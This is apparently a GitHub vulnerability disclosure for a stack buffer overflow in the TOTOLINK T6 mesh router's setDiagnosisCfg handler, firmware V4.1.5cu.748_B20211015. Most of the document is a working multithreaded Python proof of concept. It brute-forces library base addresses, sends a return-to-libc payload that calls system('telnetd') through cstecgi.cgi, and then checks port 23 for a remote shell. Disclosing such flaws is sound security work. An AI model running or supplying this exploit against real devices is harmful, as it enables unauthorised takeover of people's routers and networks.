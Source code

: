 # Information

**Vendor of the products:** TOTOLINK

**Vendor's website:** [TOTOLINK](https://www.totolink.net/)

**Affected products:** [T6](https://www.totolink.net/home/menu/newstpl/menu_newstpl/products/id/190.html)

**Affected firmware version:** V4.1.5cu.748_B20211015

**Firmware download address:** [Download Page](https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/190/ids/36.html)

# Overview

TOTOLINK Mesh Wifi T6 router has a buffer overflow vulnerability that lead to RCE. This vulnerability can be triggered through the topicurl `setDiagnosisCfg`. An attacker can implement a RCE attack by sending a malicious HTTP POST request.

# Vulnerability details

The `command` buffer can cause a buffer overflow due to the lack of length validation.

![](3/1.png)

`ip` is the param attacker control. But attecker need to pass the filter first.

![](3/2.png)

The `Validity_check` is looking for some char can be passed easy.

![](3/3.png)

`sprintf` doesn't check length of `ip`. When the attacker send a malicious `ip` param, the saved ret_address will be overwrite. Lead it to execute whatever the attacker want.

![](3/4.png)

# POC

```python
import requests, sys, threading, time, queue, random, struct, socket, os

MAX_ADDR = 2 ** 12
WORKER_AMOUNT = 10

START_TIME = 0

brute_queue = queue.Queue()

def worker(target_ip):
    while True:
        try:
            brute_val = brute_queue.get_nowait()
        except queue.Empty:
            break
        
        print("  [-] Trying 0x%x" % brute_val)

        url = f"http://{target_ip}/cgi-bin/cstecgi.cgi"

        brute_base = 0x77000000 
        telnetd_str_off = 0x5ba4

        libdl_brute_val = brute_val * 0x1000 + brute_base # base of /lib/libdl-0.9.33.so
        libdl_brute_val += 0x11c000

        libuClibc_brute_val = brute_val * 0x1000 + brute_base # base of /lib/libuClibc-0.9.33.so
        libuClibc_brute_val += 0x14000

        brute_telnet_str = libdl_brute_val + telnetd_str_off
        brute_gadget = libuClibc_brute_val + 0x29d14
        brute_system = libuClibc_brute_val + 0x35140

        temp = struct.pack("<I", brute_telnet_str)
        gadget = struct.pack("<I", brute_gadget)
        gadget_system = struct.pack("<I", brute_system)

        payload = b"A" * 135 + temp + gadget_system + gadget

        data = b'''
        {
            "topicurl":"setDiagnosisCfg",
            "ip":"%s",
            "num":"1"
        }
        ''' % (payload)

        requests.post(url, data=data)

def check_telnet(target_ip):
    global START_TIME
    print("[+] Check telnet port !!")
    while True:
        with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as sock:
            sock.settimeout(1)
            try:
                sock.connect((target_ip, 23))
                print(f"[+] Found !!")
                print(f"[+] Script run: {round(time.time() - START_TIME)}s")
                os._exit(0)
            except (socket.timeout, socket.error):
                continue
        time.sleep(1)

if __name__ == "__main__":
    if len(sys.argv) != 2:
        print(f"[-] Usage: {sys.argv[0]} target_ip")
        exit(0)

    START_TIME = time.time()
    print(f"[+] Wish me luck !!")
    
    brutes = list(range(0x10, MAX_ADDR))
    random.shuffle(brutes)

    for brute in brutes:
        brute_queue.put(brute)
    
    threads = []
    for _ in range(WORKER_AMOUNT):
        t = threading.Thread(target=worker, args=(sys.argv[1],))
        t.start()
        threads.append(t)

    t2 = threading.Thread(target=check_telnet, args=(sys.argv[1],))
    t2.start()
    threads.append(t2)

    for t in threads:
        t.join()
```

[POC](https://www.youtube.com/watch?v=Qb_jk3ZUe7o) - Attacker execute `telnetd` by bruteforcing dynamic library base to achieve remote shell.
